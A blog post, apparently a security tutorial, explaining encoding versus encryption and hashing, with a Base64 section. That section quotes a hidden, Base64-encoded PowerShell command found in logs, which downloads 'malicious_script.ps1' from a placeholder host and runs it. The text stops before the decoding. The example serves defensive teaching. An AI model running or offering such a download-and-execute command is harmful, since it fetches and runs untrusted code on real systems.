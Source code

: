 ```yaml
---
layout: post
title: Encoding vs. Encryption vs. Hashing
subtitle: The main differences
tags: [1vs1, howto]
---
```


You might have heard about these words, Encoding, Encryption and Hashing, used interchangeably.

Indeed it is a common misconception that these words refer to the same thing, when in reality they refer to their own different techniques and goals.

Let's take a quick look at each one. Also, I created a little exercise for each if you want to have a little fun.



## Encoding

The goal of encoding data is not to secure information, but to transform data so that it can be properly consumed by different system types. This is a completely reversible process.

Computers communicate in binary (0s and 1s) but typically users want to communicate using richer data formats, like text or images. In order to transfer this data between computers, first they need to be converted to binary, sent and then decoded. It would be much simpler if all systems used a single **encoding scheme** but this is not the case. In order for the computer to decode received encoded data, it needs to know which encoding scheme was used to encode.

There are several public encoding schemes, such as text-to-binary (ASCII, UTF-8, etc.) and binary-to-text (Base64, etc.).



### Base64 Example

Binary-to-text schemes are designed to transport data in binary format between channels that only support plain-text content (ASCII). Base64 is widely used in the WWW context to embed images (or videos, or other type of binary data), in textual formats like HTML and CSS files.

Base64 strings are also widely used by attackers targeting Windows systems to hide their goal in a PowerShell command.

Let's see an example of this: in your Windows logs you see a suspicious command being run several times.

```powershell
C:\Windows\System32\cmd.exe /c powershell -windowstyle hidden -exec bypass -encodedcommand YChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLlByb3h5LkNyZWRlbnRpYWxzPVtOZXQuQ3JlZGVudGlhbENhY2hlXTo6RGVmYXVsdE5ldHdvcmtDcmVkZW50aWFscztpd3IoJ2h0dHA6Ly8xMC4xMC4xMC4yL21hbGljaW91c19zY3JpcHQucHMxJyl8aWV4YA==
```

From `encodedcommand` help:

> Accepts a base64-encoded string version of a command.

So we know, after this parameter, follows a base64-encoded command. Perfect, now we know how to decode the string.
